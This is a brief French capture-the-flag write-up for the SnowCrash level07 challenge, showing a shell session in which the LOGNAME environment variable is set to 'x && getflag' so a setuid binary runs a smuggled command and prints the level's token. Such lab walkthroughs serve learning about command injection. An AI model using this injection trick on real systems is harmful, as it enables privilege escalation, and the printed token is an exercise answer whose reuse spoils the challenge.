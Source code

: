 ### Comment obtenir le flag
level07@SnowCrash:~$ export LOGNAME="x && getflag"  
level07@SnowCrash:~$ ./level07  
x  
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h  
